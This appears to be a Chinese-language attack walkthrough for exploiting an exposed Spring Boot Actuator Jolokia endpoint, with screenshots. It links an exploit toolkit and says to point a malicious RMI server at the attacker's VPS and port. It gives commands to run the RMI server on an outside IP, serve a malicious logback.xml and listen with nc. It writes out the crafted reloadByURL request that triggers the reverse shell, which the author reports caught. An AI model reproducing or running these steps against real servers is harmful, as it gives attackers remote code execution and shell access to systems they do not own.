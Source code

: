 springboot 2.0<br />/actuator/jolokia

springboot 1.0<br />/jolokia

**工具包**<br />[https://github.com/javalibrary/Spring-Boot-Actuator-Exploit](https://github.com/javalibrary/Spring-Boot-Actuator-Exploit)<br />/jolokia/list<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628085265450-cb547567-2b70-4122-8152-3d1dabab1fb3.png#align=left&display=inline&height=381&originHeight=761&originWidth=1171&size=194970&status=done&style=none&width=585.5)

EvilRMIServer.java文件修改反弹的vps和端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628085349715-d03b3763-15f5-446e-b7ea-ce2034dafb63.png#align=left&display=inline&height=197&originHeight=394&originWidth=1363&size=26745&status=done&style=none&width=681.5)<br />然后需要在maliciousRMIServer目录下打包成rmijar   mvn clean install<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628087514775-424ab925-6cbc-40b3-b5d0-186470fd6a7f.png#align=left&display=inline&height=348&originHeight=695&originWidth=1151&size=143719&status=done&style=none&width=575.5)<br />logback.xml  要注意这里用ldap还是用rmi<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628085387074-18c2a7b6-9489-4787-8bc3-6167f4e05153.png#align=left&display=inline&height=73&originHeight=97&originWidth=808&size=9472&status=done&style=none&width=606)

修改完之后传到服务器<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628085505935-b9576218-faf2-4d45-ac5a-25b4c24e4f6d.png#align=left&display=inline&height=76&originHeight=76&originWidth=511&size=8046&status=done&style=none&width=511)<br />分别启动 rmi和http、并进行nc的端口监听<br />java -Djava.rmi.server.hostname=121.4.236.95 -jar RMIServer-0.1.0.jar<br />python -m SimpleHTTPServer 8089

构造漏洞路径：<br />http://127.0.0.1:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/ip:8089!/logback.xml

http有请求<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628086211362-5ddc42ef-260e-4a8b-8a15-fa5ba2a56752.png#align=left&display=inline&height=85&originHeight=85&originWidth=776&size=14301&status=done&style=none&width=776)<br />但是rmi是看不到有反应的。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628086253265-83cbec69-f0bc-4375-af5b-abab072dfcd8.png#align=left&display=inline&height=66&originHeight=66&originWidth=1018&size=8616&status=done&style=none&width=1018)

成功监听。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1628086176493-aea4c23f-d474-4b19-a51d-0e1898b00e27.png#align=left&display=inline&height=158&originHeight=158&originWidth=437&size=13762&status=done&style=none&width=437)
